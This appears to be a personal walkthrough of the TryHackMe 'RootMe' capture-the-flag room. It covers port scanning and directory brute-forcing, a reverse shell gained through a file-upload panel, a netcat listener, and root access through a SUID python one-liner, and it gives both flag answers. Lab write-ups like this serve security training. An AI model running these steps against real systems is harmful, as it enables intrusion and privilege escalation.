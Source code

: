 https://tryhackme.com/room/rrootme

- run nmap to discover open ports `nmap -sC -sV <IP>`:
	- 22: ssh
		- OpenSSH 7.6p1
	- 80: http
		- Apache httpd 2.4.29

- poke in webapp:
	- one page side, nothing interesting on code
	- gobuster:
		- `gobuster dir -u <IP> -w <wordlist>`
			- → /css, /js, /uploads, /panel
			- insteresting is panel (uploadong files) and uploads 

- getting reverse shell
	- uploading reverse shell script - /panel
		- figure out possible extensions to upload
	- set listener `nc -lnvp 4444`
	- run the shell from /uploads
	- find a user.txt flag
		- `find / -name user.txt 2>/dev/null`
		- → THM{y0u_g0t_a_sh3ll}

- root the machine
	- `sudo -l` → nothing
	- get SUID files `find / -user root -perm /4000`
		- → interesting: /usr/bin/python
		- exploit: `python -c 'import os; os.execl("/bin/sh","sh","-p")'`
			- if you don't have stable shell you get empty line but try `whoami`!!!
			- root flag: THM{pr1v1l3g3_3sc4l4t10n} 